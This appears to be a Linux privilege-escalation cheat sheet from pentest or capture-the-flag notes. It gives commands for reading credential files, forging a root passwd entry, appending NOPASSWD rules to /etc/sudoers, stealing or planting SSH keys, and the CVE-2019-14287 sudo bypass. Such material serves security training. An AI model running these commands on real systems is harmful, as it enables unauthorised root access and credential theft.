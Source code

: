    - #### *FILES:* ####
      - /etc/passwd - cat and pipe into 'grep /bin' to find names of all users on the box that have shells. If writeable we can duplicate the root users line and just generate a password hash with: ```bash openssl passwd -1 -salt <salt> <password>```, then place it in the position of the password. 
      - /etc/group - cat this to find a list of groups and which users are in which group.
      - /etc/sudoers - we may be able to read sudo permissions of users without using sudo -l, hoping for a NOPASSWD entries so that we may use and exploit. If this file is writeable, we can append this line to give ourselves sudo access to all commands to privesc with: ```bash echo "<username> ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers ```
      - /home/*/.ssh/id_rsa - this is a users ssh private key and if we can access it, we can copy to our system and ssh in as that user.
      - /home/*/.ssh/authorized_keys - if this file is writeable, we can add our own public key to it. Also, If we can make a directory of .ssh and then create an authorized_key file for the user.


  ### *Suid Files:* ###
  List all files that you can access that have SUID permissions
    ```bash
    find / -perm -4000 2>/dev/null
    ```
  Check on https://gtfobins.github.io/ for anything useful. 
  Sometimes the results will contain something cutsom which you can go on to enumerate, reverse engineer, and exploit.


  ### *Sudo:* ###
  List which files you have sudo permissions for:
  
    ```bash
    sudo -l
    ```
    
   Check on https://gtfobins.github.io/ for anything useful. 
   Sometimes the results will contain something custom which you can go on to enumerate, reverse engineer, and exploit.
   If the output is something like 'ALL = (jones) /usr/local/bin/mycommand', then we can run 'mycommand' as the 'jones' user. We do this with:
    
    
    ```bash
    sudo -u jones /usr/local/bin/mycommand
    ```

   Probably one of the biggest Sudo exploits is CVE-2019-14287. If the user has sudo permissions: '(ALL, !root) ALL', this can be exploited. A FULL TTY IS REQUIRED (so stabilise your shell).
   

  ```bash
  sudo -u#-1 /bin/bash -p
  ```


  ### *Capabilities:* ###
  List all capabilities that applications have:
  ```bash
  getcap -r / 2>/dev/null
  ```
  Check on https://gtfobins.github.io/ for anything useful.
  